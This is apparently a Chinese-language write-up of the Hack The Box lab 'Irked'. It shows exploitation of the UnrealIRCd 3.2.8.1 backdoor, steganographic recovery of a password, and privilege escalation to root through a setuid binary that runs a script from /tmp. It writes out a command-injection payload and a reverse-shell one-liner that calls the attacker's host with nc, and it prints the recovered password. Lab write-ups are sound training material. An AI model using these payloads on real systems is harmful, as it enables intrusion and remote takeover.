Irked

首先从 IRC 服务器开始，利用unrealIRCD 3.2.8.1的后门漏洞得到shell，按照提示寻找带密码的 steg，即 Web 服务器的图像，可以使用改密码切换至用户，我会找到一个 setuid 二进制文件，它试图从 /tmp 中运行一个不存在的脚本，向其中添加代码以获取 shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
◇ nmap
◇ TCP/6697
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
nmap -sV -sC -Pn -T4 -oA nmap 10.10.10.117
可能是因为网络原因，与目标链接并不稳定，因此添加了参数-Pn，也只扫描了常见的端口

扫描可以看到只开启了3个端口，22,80和111。但是在访问web时，页面提示运行着irc

因此再次扫描目标系统，这次扫描全端口，为了节约时间，使用了以下命令nmap -vv -p- -Pn -T4 10.10.10.117，-vv可以及时的把扫描结果打印到屏幕上。

在对指定的端口进行详细扫描，发现6697端口运行着irc，版本为UnrealIRCd

TCP/6697
hexchat连接IRC
网页提示再加上扫描都发现存在irc服务，那应该就是要对这个服务漏洞的利用了
Internet 中继聊天作为应用层协议实现，以方便以文本形式进行通信。聊天过程在客户端-服务器网络模型上运行。用户使用客户端（可能是Web 应用程序、独立桌面程序或嵌入到较大程序的一部分）连接到 IRC 服务器，该服务器可能是较大 IRC 网络的一部分。
那么尝试看看能不能连接到IRC服务器，在网上搜索该如何连接IRC，发现有一篇文章，介绍了IRC并给出了客户端hexchat的使用方法http://unifreak.github.io/tutorial/IRC-quick-start，下载程序

等待下载完成，然后运行程序，add一个Networks，命名为irked，并编辑

点击连接后，很顺利的就连接到了irc

打开channel list，但里面没有任何东西

不知道该怎么搞，但是nc也可以连接，就要查一下irc该如何用了
UnrealIRCD 3.2.8.1
- RC的RFC，手工getshell
在https://www.rfc-editor.org/rfc/rfc1459#section-4.1中有irc的使用指导，4.1节讲了该如何连接注册并与服务通信
1. Pass message
在连接前需要设置一个密码。命令：PASS 参数：<password>
- Nick message
为用户设置一个昵称。命令：NICK 参数：<nickname> [ <hopcount> ]
- User message
用于连接开始时指定 新用户的用户名、主机名、服务器名和realname。命令：USER 参数：<username> <hostname> <servername> <realname>
必须注意 realname 参数必须是最后一个参数， 因为它可能包含空格字符并且必须以冒号（':'）作为前缀以确保它被识别为这样
使用nc连接服务，并按照对应格式填写对应信息，就可以连接服务，可以看到已经welcome了，并且发现目标使用的irc的版本为Unreal3.2.8.1

既然如此，尝试搜索该版本是否存在漏洞，很简单就能得知这个版本的服务存在后门，可以利用

DEBUG3_LOG最终解析为对system()的调用，而DEBUGMODE3_INFO只是字符串“AB”。因此，发送到服务器的以“AB”开头的命令将直接传递给 system()。
测试能否利用这一点，先在kali中开启tcpdump抓icmp的包，然后在目标中执行AB;ping -c 5 10.10.14.14

收到icmp的包

接下来在kali中用nc监听，在目标irc中执行反弹shell命令，命令在https://www.revshells.com/可以找到
AB;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.14 4444 >/tmp/f

metasploit
还有一种更快的漏洞利用方法，就是利用metasploit。在kali中使用msfconsole打开控制台，然后搜索漏洞

设置需要设置的东西，没什么好说的，设置好后直接run/exploit即可

Shell as djmardov
还是先获取一个交互式shell，在djmardov目录中能看到user.txt，但是没有权限访问

steg隐写术，和主页的图片有关系，结合发现的这一串密码一样的东西，使用steghide

先将那个大黄脸下载到本地，然后下载steghide工具，使用图片，输入密码后便会将内容保存至目录下，命名为pass.txt

查看密码为Kab6h+m+bbp2J:HG 然后可以使用这个密码，用ssh登录djmardov

然后可以查看user.txt

Shell as root
在目标机上传LinEnum，给予权限，执行。

看到suid文件

运行程序，提示没找到listusers

新建一个listusers，再次运行却提示操作不允许，为listusers添加执行权限，方便起见直接777，执行后提示hello没找到，好像是在执行listusers中的命令

确实和猜测的差不多

在listusers中写入/bin/bash，执行viewuser，执行listusers中的命令，然后就得到了root的权限

查看flag就可以了